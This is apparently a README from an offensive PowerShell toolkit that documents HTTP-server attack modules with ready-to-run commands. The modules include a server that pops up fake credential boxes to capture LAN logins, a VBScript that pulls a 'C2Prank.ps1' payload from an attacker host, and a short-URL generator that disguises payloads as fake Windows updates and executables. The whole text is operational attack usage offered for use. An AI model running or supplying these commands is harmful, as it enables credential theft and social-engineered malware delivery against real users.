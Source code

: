 ## Module Name
   <b><i>CaptureServer.ps1</i></b>

|Function name|Description|Privileges|Notes|
|---|---|---|---|
|CaptureServer|Captute HTTP credentials on local lan (spawns credential box)|Administrator|[screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/HTTP-Server/webcreds.png)|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/HTTP-Server/CaptureServer.ps1" -OutFile "CaptureServer.ps1"
```

```powershell
Import-Module -Name ".\CaptureServer.ps1" -Force
CaptureServer -AuthType "Basic" -IPAddress "192.168.1.72" -LogFilePath "$Env:TMP\CaptureServer.txt"
Start "http://192.168.1.72:80"
```

<br />

## Module Name
   <b><i>Start-SimpleHTTPServer.ps1</i></b>
   
|Function Name|Description|Privileges|Notes|
|---|---|---|---|
|Start-SimpleHTTPServer|Simple HTTP pure powershell webserver|Administrator|Current directory its used as webroot|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/HTTP-Server/Start-SimpleHTTPServer.ps1" -OutFile "Start-SimpleHTTPServer.ps1"
```

```powershell      
Import-Module -Name ".\Start-SimpleHTTPServer.ps1" -Force
Start-SimpleHTTPServer -Port "8080"
```   

<br />

## Module Name
   <b><i>wget.vbs</i></b>
   
|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|wget.vbs|VBScript to download files from Local Lan|User Land|can be executed using **'cscript'** or **'powershell'** interpreter|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/HTTP-Server/wget.vbs" -OutFile "wget.vbs"
```

```powershell      
cscript wget.vbs http://10.11.0.5/C2Prank.ps1 C2Prank.ps1
.\wget.vbs https://raw.githubusercontent.com/r00t-3xp10it/meterpeter/master/mimiRatz/C2Prank.ps1 C2Prank.ps1
```  

<br />

## Module Name
   <b><i>Invoke-ShortUrl.ps1 - UNDER-DEVELOP (NOT STABLE)</i></b>
   
|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|Invoke-ShortUrl|TinyUrl url generator|User Land|Dependencies: python3 (http.server)|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/HTTP-Server/Invoke-shorturl.ps1" -OutFile "Invoke-ShortUrl.ps1"
```

<br />

**prerequesites checks:**
```powershell
#Make sure python (http.server) its available [optional]
python -m http.server 8089 --bind 127.0.0.1
```

```powershell
#Get module full help
Get-Help .\Invoke-ShortUrl.ps1 -Full


#URI: http://127.0.0.1:8080/Update-KB5005101.html
.\Invoke-ShortUrl.ps1 -ServerPort '127.0.0.1:8080'

#URI: http://192.168.1.72:8087/update.html
.\Invoke-ShortUrl.ps1 -ServerPort '192.168.1.72:8087' -PayloadName 'update.html'

#URI: http://192.168.1.72:8087/fake-update.zip ( verbose outputs )
.\Invoke-ShortUrl.ps1 -PayloadName 'fake-update.zip' -Verb 'true'

#URI: http://127.0.0.1:8081/Update-KB5005101.html ( start http.server )
.\Invoke-ShortUrl.ps1 -serverport '127.0.0.1:8081' -startserver 'true'

#URI: http://192.168.1.72:8087/mozlz4-win32.exe ( start http.server )
.\Invoke-ShortUrl.ps1 -Payloadname 'mozlz4-win32.exe' -startserver 'true'
```  
